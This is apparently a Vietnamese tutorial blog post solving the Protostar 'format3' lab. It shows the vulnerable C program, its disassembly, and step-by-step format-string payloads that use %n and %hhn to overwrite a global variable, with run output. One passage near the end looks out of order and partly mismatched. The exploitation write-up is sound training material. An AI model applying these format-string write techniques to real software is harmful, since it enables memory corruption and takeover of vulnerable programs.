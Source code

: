```yaml
---
layout: post
title: format3
---
```


Trong bài này, chúng ta sẽ tiếp tục dùng `printf` với `%n` một cách linh hoạt hơn.
Thay vì chỉ ghi một giá 4 byte, chúng ta có thể dùng `printf` để ghi từng thành phần byte.

Sau đây là source code và asm code của chương trình format3.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
```asm
0x08048454 <printbuffer+0>:     push   ebp
0x08048455 <printbuffer+1>:     mov    ebp,esp
0x08048457 <printbuffer+3>:     sub    esp,0x18
0x0804845a <printbuffer+6>:     mov    eax,DWORD PTR [ebp+0x8]
0x0804845d <printbuffer+9>:     mov    DWORD PTR [esp],eax
0x08048460 <printbuffer+12>:    call   0x804837c <printf@plt>
0x08048465 <printbuffer+17>:    leave
0x08048466 <printbuffer+18>:    ret
0x08048467 <vuln+0>:    push   ebp
0x08048468 <vuln+1>:    mov    ebp,esp
0x0804846a <vuln+3>:    sub    esp,0x218
0x08048470 <vuln+9>:    mov    eax,ds:0x80496e8
0x08048475 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048479 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x08048481 <vuln+26>:   lea    eax,[ebp-0x208]
0x08048487 <vuln+32>:   mov    DWORD PTR [esp],eax
0x0804848a <vuln+35>:   call   0x804835c <fgets@plt>
0x0804848f <vuln+40>:   lea    eax,[ebp-0x208]
0x08048495 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048498 <vuln+49>:   call   0x8048454 <printbuffer>
0x0804849d <vuln+54>:   mov    eax,ds:0x80496f4
0x080484a2 <vuln+59>:   cmp    eax,0x1025544
0x080484a7 <vuln+64>:   jne    0x80484b7 <vuln+80>
0x080484a9 <vuln+66>:   mov    DWORD PTR [esp],0x80485a0
0x080484b0 <vuln+73>:   call   0x804838c <puts@plt>
0x080484b5 <vuln+78>:   jmp    0x80484ce <vuln+103>
0x080484b7 <vuln+80>:   mov    edx,DWORD PTR ds:0x80496f4
0x080484bd <vuln+86>:   mov    eax,0x80485c0
0x080484c2 <vuln+91>:   mov    DWORD PTR [esp+0x4],edx
0x080484c6 <vuln+95>:   mov    DWORD PTR [esp],eax
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave
0x080484cf <vuln+104>:  ret
0x080484d0 <main+0>:    push   ebp
0x080484d1 <main+1>:    mov    ebp,esp
0x080484d3 <main+3>:    and    esp,0xfffffff0
0x080484d6 <main+6>:    call   0x8048467 <vuln>
0x080484db <main+11>:   mov    esp,ebp
0x080484dd <main+13>:   pop    ebp
0x080484de <main+14>:   ret
```

Để tìm được địa chỉ của `target`, dùng objdump như 2 bài trước. Kết quả cho thấy `target` được lưu tại `0x080496f4`.
Tiếp theo ta tìm khoảng cách từ `esp` đến địa chỉ của formatted string cũng như bài trước. Kết quả cho thấy khoảng cách này là 44 byte, tương đương với tham số thứ 12 khi gọi hàm `printf`.
Giá trị cần ghi vào `target` là `0x01025544`.
Ta có thể làm tương tự như bài trước bằng cách xây dựng 4 byte địa chỉ, đi kèm với in ra 16,930,112 ký tự với `%x` như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"'
```

Ta cũng có thể ghi từng byte thành phần như sau.
Đầu tiên, cần tách giá trị `0x01025544` thành:
* `0x01` lưu vào `0x080496f7`
* `0x02` lưu vào `0x080496f6`
* `0x55` lưu vào `0x080496f5`
* `0x44` lưu vào `0x080496f4`

Tuy nhiên, thứ tự lưu cần được lưu ý, vì mỗi lần lưu vào địa chỉ `0xY` thì 4 byte từ `0xY` đến `0xY + 3` sẽ bị thay đổi theo.
Ví dụ nếu ta lưu `0x01` vào `0x080496f7`, ta sẽ được giá trị của `target` như sau.
<pre class="memory">
0x080496f4:     0x<span style="color:orangered">01</span>000000
</pre>
Sau đó, ta lưu `0x02` vào `0x080496f6` thì giá trị tại `0x080496f7` sẽ mất đi (trở về `0x00` do ghi `0x02` tương đương với `0x0002`).
<pre class="memory">
0x080496f4:     0x00<span style="color:orangered">02</span>0000
</pre>

Lưu ý thứ 2 đó là chúng ta không thể giảm giá trị sẽ được lưu khi lệnh `printf` tiếp diễn.
Cụ thể, vì bản chất của `printf` kết hợp với `%n` là ghi số lượng ký tự đã được in ra màn hình, giá trị được lưu với `%n` chỉ tăng dần theo thời gian cho đến khi `printf` kết thúc.
Do vậy, đối với bài này, chúng ta có thể ghi theo trình tự như sau.
* `0x44` lưu vào `0x080496f4`
* `0x55` lưu vào `0x080496f5`
* `0x0102` lưu vào `0x080496f6`

Với cách ghi này, ta cần xây dựng formatted string có cả 3 địa chỉ trên.
Rất may, với 3 địa chỉ này ở đầu formatted string, chúng ta chỉ tiêu tốn 12 ký tự in ra, nhỏ hơn giá trị 68 (hay `0x44`) cho lần ghi đầu tiên.
Ta cần in ra thêm 56 ký tự khác với `%x`.
Formatted string mở đầu như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n"'
```

Sau lần ghi đầu, chúng ta đã in ra 68 ký tự.
Ở lần ghi thứ 2, cần thêm 17 ký tự nữa để đạt đủ 85 (hay `0x55`) cho lần ghi thứ hai.
Và ở lần ghi thứ hai, chúng ta sẽ ghi vào địa chỉ ở tham số thứ 13.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n"'
```

Tương tự, với lần ghi cuối, ta cần thêm 173 ký tự để đạt đủ 258 (hay `0x0102`).
Lần ghi cuối này sẽ ghi vào địa chỉ ở tham số thứ 14.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"'
```

Chạy thử chương trình, ta được như sau.
```bash
format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
```

Chúng ta sẽ dựng formatted string dựa trên địa chỉ này.
Thành phần sẽ gồm 4 byte địa chỉ ở đầu. Tiếp theo, ta cần ghi thêm lệnh in 60 byte nữa trước khi sử dụng `%n` để ghi vào `target`.
Chúng ta cũng cần biết khoảng cách từ `esp` đến địa chỉ của formatted string.
Cách làm tương tự như bài trước, đó là dùng formatted string có cờ dạng `AAAA` ở đầu và các chuỗi `%x.` để xác định vị trí cờ sau khi in ra.

```bash
python -c "print 'AAAA' + '%x.' * 100"
```
<pre class="memory">
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
<span style="color:aqua">you have modified the target :)</span>
</pre>

Mục tiêu hoàn thành!

## Mở rộng cách ghi

Đối với cách ghi dùng `%n` đơn thuần, ta sẽ ghi 4 byte như đã đề cập ở trên.
Tuy nhiên, chúng ta cũng có thể ghi 1 hoặc 2 byte với `%hhn` và `%hn`.
Ta cũng có thể ghi 1 byte giá trị 0x00 khi số ký tự in ra bằng 256.
Lý do là vì nếu số ký tự bằng 256, nó sẽ tương đương với 0x0100, và chúng ta chỉ ghi 1 byte cuối là 0x00.
Tận dụng overflow để ghi được nhưng giá trị nhỏ một cách linh hoạt.
Tham khảo cuối bài để xem cách ghi linh hoạt 1 byte, không cần quan tầm thứ tự địa chỉ cần lưu và không gây ảnh hưởng đến cách vị trí khác trên bộ nhớ.

## Ref
```bash
user@protostar:~$ format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```
```bash
user@protostar:~$ format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "\xf7\x96\x04\x08" + "%241x" + "%15$hhn" + "%257x" + "%14$hhn" + "%83x" + "%13$hhn" + "%239x" + "%12$hhn"')
                                                                                                                                                                                                                                                0                                                                                                                                                                                                                                                         bffff5b0                                                                           b7fd7ff4                                                                                                                                                                                                                                              0
you have modified the target :)
```
